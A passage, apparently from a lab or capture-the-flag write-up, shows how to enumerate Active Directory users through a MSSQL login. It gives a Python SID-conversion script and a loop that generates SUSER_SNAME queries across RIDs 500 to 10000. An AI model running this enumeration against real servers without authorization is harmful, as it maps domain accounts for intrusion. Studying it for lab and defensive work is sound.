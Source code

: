 <img src="https://i.imgur.com/GsGRuLf.png"/>


This SID is in hex, we can covert this into a proper SID format by using the script mentioned in the article https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html

```python
import struct
import sys
def prepare_sid(sid):
    hex_string = bytes.fromhex(sid[2:])
    mod_sid = sid_to_str(hex_string)
    domain_sid_data = mod_sid.split('-')[:7]
    domain_sid = '-'.join(domain_sid_data) + "-"

    print(domain_sid+"\n")
    return domain_sid

#Build out the SID string
def sid_to_str(sid):
    if sys.version_info.major < 3:
        revision = ord(sid[0])
    else:
        revision = sid[0]

    if sys.version_info.major < 3:
        number_of_sub_ids = ord(sid[1])
    else:
        number_of_sub_ids = sid[1]
    iav = struct.unpack('>Q', b'\x00\x00' + sid[2:8])[0]
    sub_ids = [struct.unpack('<I', sid[8 + 4 * i:12 + 4 * i])[0]
               for i in range(number_of_sub_ids)]

    return 'S-{0}-{1}-{2}'.format(revision, iav, '-'.join([str(sub_id) for sub_id in sub_ids]))

prepare_sid("0x010500000000000515000000a185deefb22433798d8e847af4010000")
```

This will return the domain SID in proper which we can use to append administrator's SID to verify if we can enumerate users like this 

<img src="https://i.imgur.com/RIjq8yU.png"/>

Now we need to iterate over the user SID part

```bash
select (SUSER_SNAME(SID_BINARY(N'S-1-5-21-4024337825-2033394866-2055507597-500')))
```

We can use a for loop to increment the user id, have those queries in a text file and pass it to mssqclient with `-file` parameter

```python
for i in range(500, 10000 + 1, 1):
    print(f"select (SUSER_SNAME(SID_BINARY(N'S-1-5-21-4024337825-2033394866-2055507597-{i}')))")
```
